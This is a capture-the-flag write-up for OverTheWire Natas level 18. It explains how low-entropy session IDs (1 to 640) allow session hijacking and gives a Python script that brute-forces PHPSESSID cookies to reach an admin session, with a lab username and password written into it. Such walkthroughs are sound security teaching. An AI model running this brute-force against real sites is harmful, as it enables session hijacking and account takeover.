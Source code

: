 ## Level 17 → Level 18
**Vulnerability**: Session Management (Predictable Session IDs / Session Fixation)
**Thought Process**: The page states "Please login with your admin account to retrieve credentials for natas19.". The challenge likely wasn't SQL injection due to an absence of any SQL statements in the code. The presence of `session` and `cookie` related functions (`my_session_start()`, `session_id()`, `$_SESSION`, `$_COOKIE["PHPSESSID"]`) strongly suggested a session management vulnerability.

Since the goal was to gain admin access, I focused on the `print_credentials()` function, which clearly stated that `$_SESSION["admin"] == 1` was required. However, I quickly noticed the `$_SESSION["admin"] = isValidAdminLogin();` line, where `isValidAdminLogin()` was hardcoded to return 0; (due to a commented-out line). This immediately ruled out logging in as admin via the provided username/password form. My attention then shifted entirely to how session IDs were handled and if they could be manipulated to achieve an admin state.
**Methodology & Execution**
- **Tools Used:** Browser Developer Tools, Python
- **Step-by-Step Execution:**
	1. Code Analysis: 
		1. Confirmed that `isValidAdminLogin()` always returned `0`, making direct login via the form impossible to set `$_SESSION["admin"] = 1`.
		2. Understood the session ID creation: `session_id(createID($_REQUEST["username"]));`
		3. Found the `createID()` vulnerability by dissecting the `createID()` function. It completely ignored the `$user` input and instead used `rand(1, $maxid)` where `$maxid` was a global variable set to 640. This meant session IDs were generated using a simple, low-entropy random number between 1 and 640.
	2. Theorised an attack based on the predictable session ID generation. I guessed that the admin session ID must be one of these 640 possible integers. I could simply brute-force PHPSESSID cookies from 1 to 640 until I found one that corresponded to an existing admin session.
	3. Developed a Python Script to iterate through the possible session IDs:
	```Python
	import requests  
  
	TARGET = 'http://natas18.natas.labs.overthewire.org/index.php'  
	AUTH = ('natas18', '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ')  
	MAX_SESSION_ID = 640  # As found in the source code  
	  
	print("Attempting to brute-force PHPSESSID for Natas18")  
	  
	for session_id in range(1, MAX_SESSION_ID + 1):  
	    # Prepare the cookies dictionary with the current session ID  
	    cookies = {  
	        'PHPSESSID': str(session_id)  
	    }  
	  
	    response = requests.get(TARGET, auth=AUTH, cookies=cookies)  
	  
	    if response:  
	        print(f"  Testing PHPSESSID: {session_id}...")  
	  
	    # Check if the "admin" success message is in the response  
	    if "You are an admin." in response.text:  
	        print(f"\nFound admin PHPSESSID: {session_id}")  
	        print("\nCredentials for Natas19")  
	        # Extract and print the relevant part of the response  
	        start_index = response.text.find("Username: natas19")  
	        end_index = response.text.find("</pre>")  
	        if start_index != -1 and end_index != -1:  
	            print(response.text[start_index:end_index].strip())  
	        else:  
	            print(response.text)  # Fallback if text not found  
	        break  # Stop once the admin session is found  
